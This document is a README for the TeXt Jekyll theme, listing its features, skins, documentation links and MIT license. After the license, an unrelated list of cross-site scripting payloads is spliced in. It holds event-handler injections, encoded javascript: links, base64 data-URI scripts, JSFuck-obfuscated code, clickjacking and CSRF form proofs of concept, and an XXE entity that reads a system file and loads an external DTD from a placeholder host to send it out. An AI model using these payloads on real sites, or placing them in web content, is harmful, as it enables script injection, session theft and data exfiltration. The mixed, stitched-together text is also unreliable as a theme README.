 # [TeXt Theme](https://github.com/kitian616/jekyll-TeXt-theme)

[![Gem Version](https://img.shields.io/gem/v/jekyll-text-theme.svg)](https://github.com/kitian616/jekyll-TeXt-theme/releases)
[![license](https://img.shields.io/github/license/kitian616/jekyll-TeXt-theme.svg)](https://github.com/kitian616/jekyll-TeXt-theme/blob/master/LICENSE)
[![Travis](https://img.shields.io/travis/kitian616/jekyll-TeXt-theme.svg)](https://travis-ci.org/kitian616/jekyll-TeXt-theme)

![TeXt Theme](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/TeXt-home.jpg)

![TeXt Theme Details](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/TeXt-layouts.png)

TeXt is a super customizable Jekyll theme for personal site, team site, blog, project, documentation, etc. Similar to iOS 11 style, it has large and prominent titles, round buttons and cards.

[Change Log](https://github.com/kitian616/jekyll-TeXt-theme/blob/master/CHANGELOG.md) | [中文文档](https://github.com/kitian616/jekyll-TeXt-theme/blob/master/README-zh.md)

## Features

- Responsive
- Semantic HTML
- Skins
- Highlight Theme
- Multi-language support
- Search
- Table of contents
- Authors (Email, Facebook, Twitter, Linkedin, Weibo, Zhihu, etc)
- Additional styles (alert, tag, image, icon, button, grid, etc)
- Extensions (audios, videos, slides)
- Markdown enhancements ([MathJax](https://www.mathjax.org/), [mermaid](https://mermaidjs.github.io/), [chartjs](http://www.chartjs.org/))
- Sharing ([AddToAny](https://www.addtoany.com/))
- Comments ([Disqus](https://disqus.com/))
- Pageview ([LeanCloud](https://leancloud.cn/))
- Analytics (Google Analytics)
- RSS ([jekyll-feed](https://github.com/jekyll/jekyll-feed))

## Skins

TeXt has 6 built-in skins, you can also set up your own skin.

| `default` | `dark` | `forest` |
| --- |  --- | --- |
| ![Default](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_default.jpg) | ![Dark](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_dark.jpg) | ![Forest](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_forest.jpg) |

| `ocean` | `chocolate` | `orange` |
| --- |  --- | --- |
| ![Ocean](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_ocean.jpg) | ![Chocolate](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_chocolate.jpg) | ![Orange](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_orange.jpg) |

### Highlight Theme

TeXt use [Tomorrow](https://github.com/chriskempson/tomorrow-theme) as the highlight theme.

| `tomorrow` | `tomorrow-night` | `tomorrow-night-eighties` | `tomorrow-night-blue` | `tomorrow-night-bright` |
| --- |  --- | --- | --- |  --- |
| ![Tomorrow](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow.png) | ![Tomorrow Night](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow-night.png) | ![Tomorrow Night Eighties](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow-night-eighties.png) | ![Tomorrow Night Blue](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow-night-blue.png) | ![Tomorrow Night Bright](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow-night-bright.png) |

## Documentation

### Start

- [Quick Start](https://tianqi.name/jekyll-TeXt-theme/docs/en/quick-start)
- [Update form 1.x to 2.x](https://tianqi.name/jekyll-TeXt-theme/docs/en/update-form-1-to-2)

### Customization

- [Configuration](https://tianqi.name/jekyll-TeXt-theme/docs/en/configuration)
- [Navigation](https://tianqi.name/jekyll-TeXt-theme/docs/en/navigation)
- [Layouts](https://tianqi.name/jekyll-TeXt-theme/docs/en/layouts)
- [Logo and Favicon](https://tianqi.name/jekyll-TeXt-theme/docs/en/logo-and-favicon)
- [Authors](https://tianqi.name/jekyll-TeXt-theme/docs/en/authors)

### Content

- [Writing Posts](https://tianqi.name/jekyll-TeXt-theme/docs/en/writing-posts)
- [Additional styles](https://tianqi.name/jekyll-TeXt-theme/docs/en/additional-styles)
- [Extensions](https://tianqi.name/jekyll-TeXt-theme/docs/en/extensions)
- [Markdown Enhancements](https://tianqi.name/jekyll-TeXt-theme/docs/en/markdown-enhancements)

## Demo Pages

| Name | Description |
| --- | --- |
| [Home](https://tianqi.name/jekyll-TeXt-theme/test/) | Home page |
| [Archive](https://tianqi.name/jekyll-TeXt-theme/archive.html) | Archive page |
| [Layout Examples](https://tianqi.name/jekyll-TeXt-theme/samples.html) | Examples for different layouts |

## License

TeXt Theme is [MIT licensed](https://github.com/kitian616/jekyll-TeXt-theme/blob/master/LICENSE).

<video src onratechange="alert(1)">



<A HREF='&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;'>XSS</A>



<input type="hidden" name="xsstest" value="hwul" accesskey="X" onclick="alert(45)" a=" ">



<img src=asdf onerror=confirm(1)>



<body onscroll=alert(1)>



<img src=1 onmouseenter=alert(1)>



<video src="http://x.x.x.x/test.mp4" onprogress="alert(1)"></video>



<video src="http://x.x.x.x/test.mp4" onprogress="confirm(1)"></video>



<video src="http://x.x.x.x/test.mp4" onprogress="prompt(1)"></video>



<video onsuspend="alert(1)" src="http://x.x.x.x/test.mp4"></video>



<video onsuspend=document.location.href="http://google.com" src="http://x.x.x.x/test.mp4"></video>



<input/autofocus/ONFOCUS=alert(2)>




%22+onmouseover="document.location='http://google.com'"+a



%22onmouseover="var a='<';var b='script>';var c='/script>';var d='aler';var e='t(1)';document.write(a%2Bb%2Bd%2Be%2Ba%2Bc);"+a



<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)"> 



<input type="search" onsearch=prompt(1) autofocus> 



<object data=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==></object>



<a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==>123</a>



data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7



<embed src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==>



image/svg+xml

<?xml version="1.0" encoding="ISO-8859-1"?><html:html xmlns:html='http://www.w3.org/1999/xhtml'><html:script>alert(1);</html:script></html:html>



<div style="z-index:999999;position:fixed;top:0;left:0">

<form action='http://x.x.x.x.com' method="get" id="csrf_poc">

<input type="submit" value="Replay!" style="height:9999px; width:9999px; background-color:transparent;" />

</form>

</div>



<svgonload=confirm(99);>



<object data="javascript:alert(1)"></object>



<body onscroll=document.location.href="http://google.com"> 



<video src=http://x.x.x.x/test.mp4 onprogress=document.location.href="http://google.com"></video>



"><marquee/onstart=confirm(1)>



<img src="csrf 코드">



모바일 터치

<html ontouchstart=alert(1)> 



<html ontouchend=alert(1)> 



<html ontouchmove=alert(1)> 



<html ontouchcancel=alert(1)>



<body onorientationchange=alert(1)>



`${Function`_${atob`YWxlcnQoIm9pb2kiKTsKbG9jYXRpb24uaHJlZiA9ICJodHRwOi8vd3d3Lm9pb2kuY29tIjs=`}__```}`



<img src=1 onerror=$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"(\\\"\\"+$.__$+$.__$+$.___+$.$$$_+(![]+"")[$._$_]+(![]+"")[$._$_]+$._$+"\\\")"+"\"")())();>



<form method="POST" action="http://localhost:8000/users/1" accept-charset="UTF-8">

  <input name="_method" type="hidden" value="PUT">

  <input type="submit">

</form>



<--`<img/src=` onerror=alert(1)> --!>

<iframe/src \/\/onload = prompt(1)



<!DOCTYPE oioi [

<!ENTITY % file SYSTEM "file:///etc/pwd1">

<!ENTITY % dtd SYSTEM "http://x.x.x.x/ext.dtd">

%dtd;

%send;]>



<iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;" />



<iframe srcdoc="<img src=1 onerror=alert(2)>" />



<img srcset=1 onerror="alert(1)">



<script src="data:text/plain,alert('oioi')"></script>



<script src="data:,alert('oioi')"></script>



<META HTTP-EQUIV="refresh" CONTENT="0;url=http://google.com">



<svg

onload=alert(1)>



onerror=alert;throw document.location='http://poioi.tistory.com'



eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
